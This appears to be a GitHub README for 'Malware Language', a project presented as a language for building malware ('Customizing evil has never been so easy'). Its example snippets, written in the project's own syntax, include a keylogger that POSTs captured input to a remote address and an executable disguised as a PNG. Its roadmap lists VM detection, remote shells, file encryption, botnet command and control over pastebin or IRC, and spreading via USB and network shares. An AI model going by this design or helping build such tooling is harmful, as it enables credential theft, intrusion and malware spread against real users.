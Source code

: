 # Malware Language

Customizing evil has never been so easy

### Example code
Basic example
```
main:{
  malware.name("MrSkeltal"); @ Sets the binary name of our file

  window.x("600");
  window.y("800");
  window.title("You just got hacked bruh!");
  window.url("https://mrskeltal.com/");

  window.run(); @ This runs our nice window, displaying the set url
  system.exit("0");
}
```

Network POST example
```
main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transmog example
```
main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```
## TODO
1. Code clean up
2. Add neccessary log functions

## General ideas on what more the language can do
1. Includes tools to check if the malware is running in a vm, what kind of vm(?)
2. Include options to open socket to target, send commands and retrieve results, copy files, mv files etc.
3. Be able to write to specific disk blocks, write & read from the disk.
4. Encrypt files and decryptions methods. Should contain multiple different encryptions methods
5. Able to copy the executable to different locaitons
6. Metasploit compatability? Being able to run metasploit scripts?
7. Using pastebin for sending commands to zombies in a botnet.
8. IRC for sending commands to zombies in a botnet(?)
9. Copy to usb
10. Copy accross network shared folders

## The compiler should then be able to
1. Target plattform, windows, nix

## Technical parts
1. All directories created are temporarly and should be deleted when the program is finished
2. Internal inputs/outpus are all in json format
